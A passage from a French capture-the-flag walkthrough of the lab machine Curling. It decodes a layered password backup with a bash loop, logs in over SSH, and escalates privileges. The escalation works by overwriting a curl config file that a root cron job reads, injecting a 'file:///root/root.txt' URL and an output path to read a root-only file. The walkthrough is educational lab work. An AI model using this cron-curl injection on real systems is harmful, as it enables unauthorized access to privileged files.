```text
hex -> bzip2 -> gzip -> bzip2 -> tar -> texte
```

Tu poursuis jusqu’à ce que `file` indique finalement :

```
ASCII text
```

Le contenu devient alors lisible et révèle le véritable mot de passe utilisateur :

```
5d<wdCbdZu)|hChXll
```

> **Note :** lorsqu’un fichier contient plusieurs couches de compression ou d’archives imbriquées, il peut être pratique d’automatiser la détection et la décompression avec une boucle Bash.
>
> Tu peux par exemple demander à ChatGPT de générer ce type de boucle automatiquement à partir du résultat de la commande `file`.
>
> ```bash
> cp /home/floris/password_backup /tmp/passwork
> cd /tmp
> xxd -r passwork > passwork.bin
> mv passwork.bin passwork
> 
> while true; do
>     file passwork
> 
>     if file passwork | grep -q "bzip2 compressed"; then
>         mv passwork passwork.bz2
>         bunzip2 passwork.bz2
> 
>     elif file passwork | grep -q "gzip compressed"; then
>         mv passwork passwork.gz
>         gunzip passwork.gz
> 
>     elif file passwork | grep -q "tar archive"; then
>         mkdir -p pass_extract
>         tar -xf passwork -C pass_extract
>         find pass_extract -type f -exec cp {} passwork \;
>         rm -rf pass_extract
> 
>     elif file passwork | grep -q "ASCII text"; then
>         cat passwork
>         break
> 
>     else
>         echo "[!] Type non géré"
>         break
>     fi
> done
> ```

### Connexion SSH

Tu peux alors te connecter proprement en SSH :

```bash
ssh floris@curling.htb
```

Mot de passe :

```
5d<wdCbdZu)|hChXll
```

La prise de pied est maintenant complète avec un accès shell stable en tant qu’utilisateur :

```
floris
```

---

## Escalade de privilèges



### Sudo -l
Tu commences toujours par vérifier les droits sudo :


```bash
floris@curling:/dev/shm$ sudo -l
[sudo] password for floris: 
Sorry, user floris may not run sudo on curling.
```


### Exploration du contexte utilisateur

Avant d’aller plus loin, tu vérifies rapidement le contexte de la machine :

```bash
whoami
id
pwd
uname -a
hostname
```

Résultat :

```bash
floris@curling:/dev/shm$ whoami
floris
floris@curling:/dev/shm$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
floris@curling:/dev/shm$ pwd
/dev/shm
floris@curling:/dev/shm$ uname -a
Linux curling 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
floris@curling:/dev/shm$ hostname
curling
```


### pspy64

Comme suggéré dans la recette , tu lances également `pspy64` dans une deuxième session SSH.

L’objectif est d’observer en temps réel les processus exécutés sur la machine, notamment ceux lancés par `root` (`UID=0`).

L’énumération locale révèle rapidement une tâche cron intéressante exécutée par `root` :

```bash
[date] 14:10:01 CMD: UID=0     PID=2535   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
[date] 14:10:01 CMD: UID=0     PID=2534   | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input 
```

La commande observée est :

```bash
curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

Le paramètre `-K` indique que `curl` charge ses options depuis un fichier de configuration externe.

L’analyse montre que ce fichier est situé dans le répertoire personnel de l’utilisateur `floris` :

```bash
/home/floris/admin-area/input
```

Cela signifie qu’un processus exécuté avec les privilèges `root` utilise un fichier contrôlable par un utilisateur non privilégié.

Quelques secondes plus tard, un second cron réinitialise automatiquement ce fichier avec :

```bash
cat /root/default.txt > /home/floris/admin-area/input
```

Le mécanisme fonctionne donc en deux étapes :

1. `root` exécute `curl -K` avec le contenu du fichier `input`
2. le fichier est ensuite restauré à son état par défaut

Cette fenêtre est suffisante pour injecter temporairement une configuration arbitraire dans `input`.

Comme `curl` accepte également les URLs locales via le protocole `file://`, il devient possible de demander à `root` de lire directement des fichiers accessibles uniquement à l’utilisateur privilégié.

Le fichier `input` est remplacé par :

```bash
url = "file:///root/root.txt"
output = "/dev/shm/root.txt"
```

La directive `output` du fichier de configuration est également interprétée par `curl`, ce qui permet ici d’écrire directement le contenu dans `/dev/shm/root.txt`.

```bash
cat > /home/floris/admin-area/input << 'EOF'
url = "file:///root/root.txt"
output = "/dev/shm/root.txt"
EOF
```

Puis, au prochain passage du cron, `curl` est exécuté par `root` et copie le contenu de `/root/root.txt` vers `/dev/shm/root.txt`.

Il ne reste alors plus qu’à lire le fichier généré :

```bash
cat /dev/shm/root.txt
8935xxxxxxxxxxxxxxxxxxxxxxxxxxxef69
```

Cette escalade repose donc sur une mauvaise séparation des privilèges : un processus root exécute `curl` à partir d’un fichier de configuration modifiable par un utilisateur non privilégié.


---

## Conclusion

La machine Curling propose un scénario Linux relativement accessible, mais très formateur sur plusieurs points importants en CTF.

La prise de pied repose principalement sur l’observation et l’analyse méthodique du contenu exposé par le site Joomla.

Aucune vulnérabilité spectaculaire n’est nécessaire ici : un simple fichier oublié dans le code source mène progressivement à la récupération d’identifiants, puis à l’exploitation de l’éditeur de templates Joomla pour obtenir une exécution de commandes.

Le challenge met également en avant une compétence souvent utile en CTF : savoir reconnaître et traiter plusieurs couches de compression ou d’encapsulation successives à partir d’un simple dump hexadécimal.

L’escalade de privilèges illustre ensuite un cas très réaliste de mauvaise utilisation d’un outil système automatisé.
 Une tâche cron exécutée par `root` utilise ici `curl -K` avec un fichier de configuration contrôlable par l’utilisateur, permettant finalement de lire des fichiers sensibles et de récupérer le flag root.

Cette box constitue donc une excellente introduction à :

- l’analyse manuelle d’un CMS ;
- l’exploitation d’un accès administrateur Joomla ;
- la gestion de reverse shells Linux ;
- l’analyse de fichiers compressés imbriqués ;
- l’exploitation de tâches cron mal sécurisées.

Le challenge est maintenant entièrement compromis et les deux flags ont été récupérés avec succès.

---

